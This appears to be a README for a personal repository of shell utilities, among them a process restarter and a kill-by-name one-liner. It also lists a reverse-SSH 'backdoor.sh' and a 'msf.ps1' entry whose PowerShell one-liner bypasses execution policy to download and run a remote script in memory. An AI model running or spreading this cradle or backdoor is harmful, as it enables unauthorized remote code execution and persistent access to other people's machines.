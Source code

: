 # tools
tool script to make something easy

* forevermain.sh     
    when a python script got exit by unhandled exception,restart it!!    
    also,you can change it to run any other scpript like nodejs lua etc
    
* backdoor.sh    
    reverse a ssh tunnel via a server,control your office PC anywhere in the world!!    
   
* kill_by_name.sh    
    One line command to kill a process by it's name!!   
    [Only test on ubuntu]

* start_screen.sh  
    start screen session ,when server reboot ,autorun some server script or app ,
    avoid < & > background app , can not observe the terminal output 

* msf.ps1  
  for msf test
  powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rayleeafar/tools/master/msf.ps1');"
